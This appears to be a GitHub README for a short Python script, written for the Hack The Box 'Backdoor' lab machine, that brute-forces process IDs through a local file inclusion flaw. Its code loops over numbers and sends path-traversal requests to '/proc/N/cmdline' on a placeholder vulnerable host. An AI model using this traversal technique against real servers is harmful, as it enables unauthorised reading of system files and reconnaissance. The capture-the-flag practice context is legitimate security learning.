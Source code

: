 # PID Brute-Force via LFI

## Vulnerability
I wrote this python script to help solve the backdoor machine in Hack The Box. The script was used for a brute forcing PID via LFI vulnerability. 


### Tool Overview

The tool Brute-force multiple requests trying a range of numbers for all the PID in the proc directory and filter the results based on the responses length  .

### How to Setup:
1. Change the URL paramenter with the LFI vulnerable site`

```py

for x in range(0,10000):

	url = "http://VULNERABLE.SITE.URL/../../../../../../proc/"+ str(x) +"/cmdline"
	r = requests.get(url)
	
```         

### Usage:
Use this command to run the python tool you just setup:

`Python3 PID-via-LFI.py`


| Screenshot |
|------------|
|![PID](https://user-images.githubusercontent.com/68829493/155852527-175a99b4-60d4-4704-9033-fb59b04c2fb5.png)|







